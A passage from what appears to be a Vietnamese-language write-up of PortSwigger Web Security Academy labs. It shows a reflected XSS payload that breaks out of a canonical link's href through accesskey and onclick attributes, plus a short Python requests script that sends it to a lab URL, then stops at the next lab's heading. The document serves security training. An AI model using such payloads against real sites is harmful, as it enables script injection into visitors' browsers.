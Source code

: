 ![image](https://hackmd.io/_uploads/BJ8_1sD5a.png)

Khi truy cập trang web, có thể thấy canonical link chính là đường dẫn URL hiện tại. Nhìn vào đó mình có thể escape và thêm thuộc tính để reflected XSS.

![image](https://hackmd.io/_uploads/H1nWyoP56.png)

### Khai thác

- sử dấu `?` để lừa truyền vào tham số,vì nếu mình chỉ thêm dấu `?` rồi ngắt chuỗi href

`?'accesskey='x'onclick='alert(1)` và gửi payload.

- Dấu `'` đầu tiên sau dấu ? là để ngắt đoạn href vì ta để ý thấy đoạn href sử dụng dấu `'`
- Sau đó chèn vào thuộc tính `accesskey=‘X’` như bài viết trên để khi bấm ALT+SHIFT+X thì sẽ thực hiện onclick='alert(1), và kết thúc bằng dấu `'` có sẵn của thuộc tính href

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a24001d042c8f908303f16700b5001d.web-security-academy.net/'

payload= "?'accesskey='x'onclick='alert(1)"
response = requests.get(
    url  + payload,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/HJ-FWiv9p.png)

![image](https://hackmd.io/_uploads/r1GvZoDca.png)

## 18. Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

link: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped

### Đề bài

![image](https://hackmd.io/_uploads/ryz7MiP9T.png)

